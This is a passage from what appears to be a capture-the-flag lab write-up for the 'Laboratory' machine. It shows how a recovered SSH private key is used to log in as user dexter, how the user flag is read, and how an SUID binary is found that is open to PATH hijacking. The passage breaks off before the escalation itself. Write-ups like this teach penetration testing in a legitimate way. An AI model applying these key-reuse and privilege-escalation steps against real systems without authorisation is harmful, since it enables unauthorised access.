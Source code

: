 - Convert the OpenSSH to RSA using the command below, as well as the redefinition of its permissions so we could be able to use it with `ssh`, entering a blank password to the exported key.

  ```bash
  $ ssh-keygen -p -m PEM -f ./id_rsa
  Key has comment 'root@laboratory'
  Enter new passphrase (empty for no passphrase): 
  Enter same passphrase again: 
  Your identification has been saved with the new passphrase.
  $ chmod 600 id_rsa
  ```

After the mentioned process, I was able to SSH to the machine and get the user flag under Dexter's account:

  ```bash
  $ ssh -i id_rsa dexter@10.10.10.216
  dexter@laboratory:~$ ls -la
  total 40
  drwxr-xr-x 6 dexter dexter 4096 Oct 22 08:42 .
  drwxr-xr-x 3 root   root   4096 Jun 26  2020 ..
  lrwxrwxrwx 1 root   root      9 Jul 17  2020 .bash_history -> /dev/null
  -rw-r--r-- 1 dexter dexter  220 Feb 25  2020 .bash_logout
  -rw-r--r-- 1 dexter dexter 3771 Feb 25  2020 .bashrc
  drwx------ 2 dexter dexter 4096 Jun 26  2020 .cache
  drwx------ 2 dexter dexter 4096 Oct 22 08:14 .gnupg
  drwxrwxr-x 3 dexter dexter 4096 Jun 26  2020 .local
  -rw-r--r-- 1 dexter dexter  807 Feb 25  2020 .profile
  drwx------ 2 dexter dexter 4096 Jun 26  2020 .ssh
  -r--r----- 1 root   dexter   33 Feb 19 11:06 user.txt
  dexter@laboratory:~$ cat user.txt 
  <redacted>
  ```

## Root flag

After running `linpeas.sh` again, this time in the real machine, noticed that there's an SUID file with permissions attributed to the user **dexter**.

```bash
dexter@laboratory:~$ ls -la /usr/local/bin/docker-security
-rwsr-xr-x 1 root dexter 16720 Aug 28 14:52 /usr/local/bin/docker-security
```

Executing this binary, I couldn't see any output, as well as no information/help is shown when used parameters like `--version` and `--help`. Analyzing the binary further, noticed that it's an ELF, which could be abused somehow using a path hijack or buffer overflow.

```bash
dexter@laboratory:~$ file /usr/local/bin/docker-security
/usr/local/bin/docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped
```

Before using disassembly tools, inspected the files strings from the attacker machine (once `strings` wasn't available in this box) and some entries called attention: two calls to `chmod` to redefine docker directories permissions, but without specifying the full path to the binary, confirming the suspicion that **it is vulnerable to path hijacking**.
